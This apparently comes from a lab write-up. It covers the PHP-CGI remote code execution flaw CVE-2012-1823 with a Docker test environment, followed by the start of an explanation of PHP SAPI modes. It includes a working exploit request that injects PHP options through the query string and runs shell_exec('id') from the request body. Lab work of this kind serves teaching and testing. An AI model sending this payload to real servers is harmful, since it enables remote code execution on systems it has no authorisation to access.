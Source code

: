 # PHP-CGI Remote Code Execution Vulnerability (CVE-2012-1823)

## Principle

  - Reference article http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/
  - Impact version php < 5.3.12 or php < 5.4.2

## test environment

Compile and run the environment:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, visit the word "http://your-ip/" to see "Hello php".


Visit `http://your-ip/index.php?-s` to see the source code, indicating that the vulnerability exists. Send the following packet, you can see that the code in the Body has been executed:

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

## Vulnerability Interpretation

### PHP SAPI and Run Mode

First, let's talk about the operating mode of PHP.

Download the PHP source code, you can see that there is a directory called sapi. The role of sapi in PHP is similar to the "deliverer" of a message, such as I wrote in [Fastcgi Protocol Analysis & & PHP-FPM Unauthorized Access Vulnerability && Exp] (https://www.leavesongs.com/PENETRATION/ Fastfgi-and-php-fpm.html) The fpm introduced in the article, his role is to accept the data encapsulated by the Web container through the fastcgi protocol, and handed it to the PHP interpreter.

In addition to fpm, the most common sapi should be mod_php for Apache, which is used for data exchange between php and apache.

Php-cgi is also a sapi. In ancient times, the web application runs very simple. After receiving the http packet, the web container gets the file requested by the user (cgi script), and forks a child process (interpreter) to execute the file, and then takes By the execution result, it is returned directly to the user, and the interpreter subprocess is over. Most web applications based on bash, perl and other languages ​​are executed in this way. This type of execution is generally called cgi. When installing Apache, there is a cgi-bin directory by default. The earliest is to place these cgi scripts. of.
